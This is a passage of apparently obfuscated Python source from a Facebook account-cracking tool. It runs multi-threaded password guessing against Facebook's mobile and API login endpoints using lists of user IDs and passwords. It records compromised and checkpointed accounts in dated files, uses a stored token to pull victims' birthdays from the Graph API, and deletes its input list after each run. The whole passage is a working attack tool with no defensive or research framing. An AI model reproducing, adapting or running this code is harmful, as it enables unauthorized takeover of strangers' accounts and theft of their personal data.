 %sExample : Pakistan,786786,223344'%(_U_,_P_,_U_,_P_))                 self.pwlist()                 break             elif f in ['d','D','1','01','001']:                 try:                     while True:                         try:                             self.apk = files                             self.fs = _ahmar_ahmar_(self.apk).read().splitlines()                             break                         except:                             continue                     self.fl = []                     for i in self.fs:                         try:                             self.fl.append({"id":i.split("•")[0],"pw":_pass_list_(i.split("•")[1])})                         except:continue                     start_method()                     put = _cici_ahmar_('%s[%s•%s] %sChoose : '%(_U_,_P_,_U_,_P_))                     _ahmar_cici_(''%())                     if put in ['']:                         _ahmar_cici_('%s[%s!%s] %sWrong input Bro'%(_M_,_P_,_M_,_P_))                         time.sleep(2)                         _menu_dev_(self._Ahmar_jan_Cici_)                     elif put in ['1','01','001','a']:                         started()                         ThreadPool(35).map(self.api,self.fl)                         os.remove(self.apk)                         _cici_cici_()                     elif put in ['2','02','002','b']:                         started()                         ThreadPool(35).map(self.mbasic,self.fl)                         os.remove(self.apk)                         _cici_cici_()                     else:                         _ahmar_cici_('%s[%s!%s] %sWrong input Bro'%(_M_,_P_,_M_,_P_))                         time.sleep(2)                         _menu_dev_(self._Ahmar_jan_Cici_)                 except Exception as e:                     continue     def pwlist(self):         self.pw = _cici_ahmar_('%s[%s•%s] %s Enter Password : '%(_U_,_P_,_U_,_P_)).split(",")         if len(self.pw) ==0:             _ahmar_cici_('%s[%s!%s] %sWrong input BRO'%(_M_,_P_,_M_,_P_))             time.sleep(2)             _menu_dev_(self._Ahmar_jan_Cici_)         else:             for i in self.fl:                 i.update({"pw":self.pw})             start_method()             put = _cici_ahmar _('%s[%s•%s] %sChoose : '%(_U_,_P_,_U_,_P_))             _ahmar_cici_(''%())             if put in ['']:                 _ahmar_cici_('%s[%s!%s] %sWrong input BRO'%(_M_,_P_,_M_,_P_))                 time.sleep(2)                 _menu_dev_(self._Ahmar_jan_Cici_)             elif put in ['1','01','001','a']:                 started()                 ThreadPool(30).map(self.api,self.fl)                 os.remove(self.apk)                 _cici_cici_()             elif put in ['2','02','002','b']:                 started()                 ThreadPool(30).map(self.mbasic,self.fl)                 os.remove(self.apk)                 _cici_cici_()             else:                 _ahmar_cici_('%s[%s!%s] %sWrong Input'%(_M_,_P_,_M_,_P_))                 time.sleep(2)                 _menu_dev_(self._Ahmar_jan_Cici_)     def api(self,fl):         try:             for i in fl.get("pw"):                 log = log_api(fl.get("id"),i,"https://b-api.facebook.com")                 if log.get("status")=="cp":                     try:                         ke = _req_get_("https://graph.facebook.com/" + fl.get("id") + "?access_token=" + _ahmar_ahmar_("token.txt","r").read())                         tt = json.loads(ke.text)                         ttl = tt["birthday"]                         m,d,y = ttl.split("/")                         m = bulan_ttl[m]                         _ahmar_cici_("\r%s[%sAHMAR-CP%s] %s • %s • %s %s %s         "%(_U_,_P_,_U_,fl.get("id"),i,d,m,y))                         self.cp.append("%s•%s•%s%s%s"%(fl.get("id"),i,d,m,y))                         _ahmar_ahmar_("CP/%s.txt"%(tanggal),"a+").write("%s•%s•%s%s%s\n"%(fl.get("id"),i,d,m,y))                         break                     except(KeyError, IOError):                         m = " "                         d = " "                         y = " "                     except:pass                     _ahmar_cici_("\r%s[%sAHMAR-CP%s] %s • %s                 "%(_U_,_P_,_U_,fl.get("id"),i))                     self.cp.append("%s•%s"%(fl.get("id"),i))                     _ahmar_ahmar_("CP/%s.txt"%(tanggal),"a+").write("%s•%s\n"%(fl.get("id"),i))                     break                 elif log.get("status")=="success":                     _ahmar_cici_("\r%s[%sAHMAR-OK%s] %s • %s                 "%(_H_,_P_,_H_,fl.get("id"),i))                     self.ada.append("%s•%s"%(fl.get("id"),i))                     _ahmar_ahmar_("OK/%s.txt"%(tanggal),"a+").write("%s•%s\n"%(fl.get("id"),i))                     break                 else:continue             self.ko+=1             _ahmar_cici_("\r%s[%sCrack%s][%s%s/%s%s][%sOK:%s%s][%sCP:%s%s]%s"%(_U_,_P_,_U_,_P_,self.ko,len(self.fl),_U_,_P_,len(self.ada),_U_,_P_,len(self.cp),_U_,_P_), end=' ');sys.stdout.flush()         except:             self.api(fl)     def mbasic(self,fl):         try:             for i in fl.get("pw"):                 log = log_mbasic(fl.get("id"),i,"https://mbasic.facebook.com")                 if log.get("status")=="cp":                     try:                         ke = _req_get_("https://graph.facebook.com/" + fl.get("id") + "?access_token=" + _ahmar_ahmar_("token.txt","r").read())                         tt = json.loads(ke.text)                         ttl = tt["birthday"]                         m,d,y = ttl.split("/")                         m = bulan_ttl[m]                         _ahmar_cici_("\r%s[%sXSAN-CP%s] %s • %s • %s %s %s         "%(_U_,_P_,_U_,fl.get("id"),i,d,m,y))                         self.cp.append("%s•%s•%s%s%s"%(fl.get("id"),i,d,m,y))                         _ahmar_ahmar_("CP/%s.txt"%(tanggal),"a+").write("%s•%s•%s%s%s\n"%(fl.get("id"),i,d,m,y))